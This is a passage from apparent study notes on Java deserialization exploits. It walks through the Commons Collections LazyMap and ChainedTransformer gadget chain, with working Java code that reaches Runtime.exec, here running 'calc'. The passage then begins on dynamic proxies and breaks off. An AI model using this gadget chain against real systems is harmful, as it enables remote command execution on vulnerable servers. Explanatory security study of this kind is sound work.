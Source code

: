       

   2. The `LazyMap.factory` is the instance of chainedTransformer; Thus, method `ChainedTransformer.transform()` is called -> **OS's command execution**

      ![image-20200316162433874](C:\Users\Lam Nguyen\AppData\Roaming\Typora\typora-user-images\image-20200316162433874.png)



##### Code:

- ```java
  // RCE with LazyMap and ChainedTransformer
  String[] command = {"calc"};
  final Transformer[] transformers = new Transformer[]{
  
      new ConstantTransformer(Runtime.class),
  
      new InvokerTransformer("getMethod",
                             new Class[]{ String.class, Class[].class},
                             new Object[]{"getRuntime", new Class[0]}
                            ),
  
      new InvokerTransformer("invoke",
                             new Class[]{Object.class, Object[].class},
                             new Object[]{null, new Object[0]}
                            ),
  
      new InvokerTransformer("exec",
                             new Class[]{String.class},
                             command
                            )
  };
  
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
  Map map = new HashMap();
  Map lazyMap = LazyMap.decorate(map, chainedTransformer);
  
  lazyMap.get("gursev"); // try to get non-existed key in the map
  ```

  





#### Deserialization to OS's command execution: chain from `InputStream.readObject()` to `LazyMap.get(<non-existed key>)`

> Quick review on Dynamic Proxy API
>
> - Function: routes all method invocations to a single handler – the *invoke()* method.
>
> - Each proxy instance **has an associated** **invocation handler**, the one that was passed to its constructor. 
>
>   - A class represent invocation handler implements InvocationHandler interface
>   - When method is invoked on a proxy instance, the method invocation is encoded and dispatched to the invoke method of its invocation handler
>
> - Create a Proxy: 
>
>   ```java
>   Proxy.newInstance(Classloader of the class represents invocation handler ,
>   					Class[] interfaces which methods are routed, 
>   					instance of InvocationHandler to dispatch method to)
>   ```
  ```